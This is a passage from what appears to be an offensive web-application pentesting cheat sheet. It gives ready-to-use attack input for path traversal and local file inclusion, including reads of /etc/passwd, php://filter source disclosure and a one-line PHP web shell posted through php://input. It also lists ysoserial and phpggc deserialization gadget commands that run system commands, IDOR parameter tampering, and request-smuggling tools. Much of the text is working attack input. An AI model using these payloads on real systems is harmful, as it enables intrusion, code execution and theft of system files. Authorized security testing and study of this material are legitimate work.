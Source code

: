 **Exploit:**
```
../../../etc/passwd
....//....//....//etc/passwd
php://filter/convert.base64-encode/resource=config.php
php://input (with POST: <?php system($_GET['cmd']);?>)
```

## **INSECURE DESERIALIZATION**
*Present when: Untrusted serialized objects are deserialized*

**Manual:** Look for base64/hex blobs in cookies, параметрs; decode and analyze
**Automated:**
```bash
ysoserial -p CommonsCollections1 -c 'id'
phpggc -l # List gadgets
```

**Exploit:**
```bash
# Java
java -jar ysoserial.jar CommonsCollections1 'id' | base64

# PHP
phpggc Laravel/RCE1 system id | base64

# .NET
ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -c "calc"
```

## **IDOR**
*Present when: Object IDs in URLs/parameters lack proper authorization checks*
Also see: [Insecure Direct Object Reference (IDOR)](../../Web%20Application/Access%20Control/Insecure%20Direct%20Object%20Reference%20(IDOR).md)
**Manual:** Change numeric IDs, UUIDs, usernames in parameters
**Automated:**
```bash
ffuf -w numbers.txt -u target.com/user/FUZZ -fc 404
authz0 -u target.com -H "Cookie: session=abc"
```

**Exploit:**
```
/user/profile?id=1 → id=2
/api/document/ABC123 → ABC124
/order/user123 → user456
```

## **HTTP REQUEST SMUGGLING**
*Present when: Frontend/backend servers parse HTTP requests differently*

**Manual:** Send conflicting Content-Length/Transfer-Encoding headers
**Automated:**
```bash
smuggler.py -u target.com
httpreqsmuggler target.com
```

